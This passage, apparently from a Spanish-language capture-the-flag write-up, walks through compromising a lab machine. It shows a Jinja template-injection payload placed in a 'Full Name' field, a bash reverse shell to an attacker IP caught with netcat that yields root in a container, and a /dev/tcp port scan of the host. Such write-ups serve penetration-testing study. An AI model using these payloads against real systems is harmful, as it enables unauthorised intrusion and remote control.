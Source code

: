 {% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}
## Intrusión

Vamos a mandarnos una `reverse shell` a nuestro equipo para ganar acceso a la máquina víctima, para ello nos ponemos en escucha con `netcat` por el `puerto 9993`

```
# nc -nlvp 9993
```

`Inyectamos` este `payload` en el campo `Full Name`

{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.35/9993 0>&1"').read() }}
```
{% endraw %}

`Ganamos acceso` a la máquina víctima como usuario `root`

```
# nc -nlvp 9993
listening on [any] 9993 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.183.190] 49396
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```
## Privilege Escalation

Sin embargo nos encontramos dentro de un `contenedor`

```
root@3a453ab39d3d:/backend# hostname -i
hostname -i
172.19.0.2
```

Descubrimos los `puertos abiertos` de la máquina principal

```
root@3a453ab39d3d:/home# for i in {1..65535}; do (echo > /dev/tcp/172.19.0.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

Vemos que `/home/agustus` es una `montura` de la máquina principal a la cual tenemos acceso

```
root@3a453ab39d3d:/home# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/BMOEKLXDA4EFIXZ4O4AP7LYEVQ:/var/lib/docker/overlay2/l/E365MWZN2IXKTIAKIBBWWUOADT:/var/lib/docker/overlay2/l/ZN44ERHF3TPZW7GPHTZDOBQAD5:/var/lib/docker/overlay2/l/BMI22QFRJIUAWSWNAECLQ35DQS:/var/lib/docker/overlay2/l/6KXJS2GP5OWZY2WMA64DMEN37D:/var/lib/docker/overlay2/l/FE6JM56VMBUSHKLHKZN4M7BBF7:/var/lib/docker/overlay2/l/MSWSF5XCNMHEUPP5YFFRZSUOOO:/var/lib/docker/overlay2/l/3VLCE4GRHDQSBFCRABM7ZL2II6:/var/lib/docker/overlay2/l/G4RUINBGG77H7HZT5VA3U3QNM3:/var/lib/docker/overlay2/l/3UIIMRKYCPEGS4LCPXEJLYRETY:/var/lib/docker/overlay2/l/U54SKFNVA3CXQLYRADDSJ7NRPN:/var/lib/docker/overlay2/l/UIMFGMQODUTR2562B2YJIOUNHL:/var/lib/docker/overlay2/l/HEPVGMWCYIV7JX7KCI6WZ4QYV5,upperdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/diff,workdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
```